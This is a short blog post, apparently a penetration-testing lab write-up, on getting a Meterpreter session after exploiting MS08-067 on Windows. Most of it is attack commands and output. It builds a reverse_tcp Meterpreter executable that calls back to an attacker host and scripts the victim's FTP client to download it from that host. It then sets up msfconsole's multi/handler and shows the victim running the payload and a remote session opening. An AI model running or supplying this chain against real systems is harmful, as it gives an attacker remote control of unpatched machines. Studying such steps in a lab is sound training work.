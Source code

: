 ```yaml
---
published: true
layout: post
title: "Meterpreter up and running post exploitation"
---
```


I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

I start the ftp service on my attacking machine

    service pure-ftpd start

I created a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
I exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

FTP is installed on the server.  Because FTP is not interactive I create a text file to pass to the ftp application.  I issue the following commands:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

Victim:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

Attacker:  Start msfconsole on attacking machine

    msfconsole
    
Attacker:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
Victim:  Execute payload

    iambad.exe

Attacker:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
